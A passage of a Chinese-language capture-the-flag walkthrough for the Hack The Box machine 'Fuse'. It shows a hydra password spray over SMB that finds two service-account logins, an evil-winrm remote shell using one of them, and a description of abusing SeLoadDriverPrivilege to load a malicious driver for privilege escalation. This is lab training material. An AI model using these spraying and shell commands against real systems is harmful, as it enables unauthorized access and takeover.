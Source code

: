 
```


## Spray for Password

hydra爆破这个密码匹配的用户
```
┌──(root💀kali)-[~/htb/Fuse]
└─# hydra -L user -p '$fab@s3Rv1ce$1' 10.10.10.193 smb
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-08 06:16:20
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 15 login tries (l:15/p:1), ~15 tries per task
[DATA] attacking smb://10.10.10.193:445/
[445][smb] host: 10.10.10.193   login: svc-print   password: $fab@s3Rv1ce$1
[445][smb] host: 10.10.10.193   login: svc-scan   password: $fab@s3Rv1ce$1
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-08 06:16:33

```

等到两个用户凭据：```svc-scan：$fab@s3Rv1ce$1```和```svc-print：$fab@s3Rv1ce$1```

使用```svc-print：$fab@s3Rv1ce$1```拿到foodhold
```
┌──(root💀kali)-[~/htb/Fuse]
└─#  evil-winrm -i 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'           123 ⨯

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                           

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                             

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-print\Documents> whoami
fabricorp\svc-print

```

# 提权

查看本账户权限，注意```SeLoadDriverPrivilege```

谷歌搜索```seloaddriverprivilege privilege escalation```找到[这篇文章](https://www.tarlogic.com/blog/abusing-seloaddriverprivilege-for-privilege-escalation/)

这里有文章的[中文版本](https://www.anquanke.com/post/id/148227)

（我理解）这个漏洞利用的原理是，SeLoadDriverPrivilege就是允许非特权用户加载驱动程序，此时如果加载的恶意的驱动程序，恶意代码就可以加载到系统的内核中执行，从而实现提权。


```
*Evil-WinRM* PS C:\Users\svc-print\Documents> whoami /priv
